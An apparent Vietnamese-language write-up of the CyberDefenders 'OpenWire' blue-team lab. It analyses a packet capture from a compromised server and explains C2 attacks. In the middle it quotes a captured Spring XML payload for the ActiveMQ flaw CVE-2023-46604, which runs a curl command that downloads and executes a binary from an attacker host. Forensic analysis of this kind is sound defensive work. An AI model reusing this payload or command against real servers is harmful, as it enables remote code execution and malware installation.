




### Description 
> During your shift as a tier-2 SOC analyst, you receive an escalation from a tier-1 analyst regarding a public-facing server. This server has been flagged for making outbound connections to multiple suspicious IPs. In response, you initiate the standard incident response protocol, which includes isolating the server from the network to prevent potential lateral movement or data exfiltration and obtaining a packet capture from the NSM utility for analysis. Your task is to analyze the pcap and assess for signs of malicious activity.

### Link challenge 
> https://cyberdefenders.org/blueteam-ctf-challenges/openwire/

### Solution 
- Đầu tiên mình sẽ phân tích sơ lược trước khi trả lời các câu hỏi 
- Trước khi làm được bài lab này ta phải tìm hiểu về tấn công C2 trước  

<details>
<summary>
Lý thuyết về tấn công C2 (Command and Control)
</summary>

```
Command and Control Server (C2) là một máy chủ hoặc hệ thống có nhiệm vụ định hướng, điều khiển và theo dõi các hoạt động của phần mềm độc hại hoặc các cuộc tấn công mạng. C2 được sử dụng để gửi lệnh cho phần mềm độc hại, nhận dữ liệu từ nó và thu thập thông tin từ các máy bị nhiễm mã độc.
C&C Server hoạt động như trung tâm điều khiển trong các cuộc tấn công mạng và botnet. Hacker thiết lập máy chủ này để quản lý và điều hành các máy tính nạn nhân hoặc thiết bị bị nhiễm mã độc hại. 
```
- Đầu tiên, hacker lây nhiễm mã độc hại vào các thiết bị nạn nhân thông qua các kỹ thuật khác nhau. 
- Sau khi nhiễm, các thiết bị này tự động kết nối đến C&C Server qua giao thức mạng an toàn. 
- Hacker sử dụng kết nối này để gửi lệnh và điều khiển các thiết bị nạn nhân, thực hiện các hoạt động tấn công, thu thập thông tin, hoặc thậm chí thực hiện tắt máy tính
- C&C Server thường được thiết lập để che giấu địa chỉ IP thực sự và bảo vệ bằng các biện pháp bảo mật để tránh phát hiện. Việc tìm ra và ngăn chặn C&C Servers là một phần quan trọng của an ninh mạng và quản lý rủi ro.
- 
- C&C là một phương thức tấn công đặc biệt xảo quyệt, bởi chỉ cần một máy tính bị nhiễm virus cũng có thể trở thành cầu nối cho phép hacker hạ gục toàn bộ hệ thống mạng nội bộ. Sau khi phần mềm độc hại xâm nhập thành công trên một máy tính bị lây nhiễm, máy chủ C&C có thể ra lệnh cho nó sao chép và tự phát tán ra các máy tính khác trong mạng — điều này có thể dễ dàng xảy ra vì mã độc về cơ bản đã vượt qua được tường lửa của mạng.

</details>

- Mở wireshark lên, tiến hành phân tích các ip có trong mạng trước 
- 
- Có thể thấy rõ ràng quá trình truyền dữ liệu hầu hết tập trung vào 2 ip `134.209.197.3` và `146.190.21.92`
- Tiếp theo ta thấy rằng 
- 
- Hầu hết các trao đổi dữ liệu nó liên quan đến ip `134.209.197.3`
- Vì vậy có thể khẳng định rằng ip máy chủ C2 là `146.190.21.92`, và ip của máy chủ bị tấn công là `134.209.197.3`
- Tiếp tục phân tích thấy rằng máy chủ C2 đang khai thác thông qua cổng 61616
- 
- Tại gói 11 thấy rằng ip máy victim đang GET về 1 file có tên là `/invoice.xml`
- 
- Folow theo gói đó thấy rằng nó đang thực thi 1 lệnh shell `curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker`, trong đó lệnh `curl -s -o /tmp/docker http://128.199.52.72/docker` tải file về từ `http://128.199.52.72/docker` và dùng chmod +x để nâng quyền và thực thi file docker 
- Ta cũng có thể dễ dàng nhận thấy luôn rằng ip `128.199.52.72` nó đến từ mạng của attacker
```
GET /invoice.xml HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/11.0.21
Host: 146.190.21.92:8000
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Date: Tue, 12 Dec 2023 13:38:28 GMT
Content-type: application/xml
Content-Length: 816
Last-Modified: Tue, 12 Dec 2023 13:37:45 GMT

<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <!--value>open</value>
                <value>-a</value>
                <value>calculator</value -->
                <value>bash</value>
                <value>-c</value>
                <value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
- Thấy rằng tệp xml này còn gọi đến class `java.lang.ProcessBuilder` để chạy docker file 
- Tra google 1 tí sẽ thấy được đây chính là lỗ hổng `CVE-2023-46604` của cổng 61616 (ActiveMQ Classic)

- 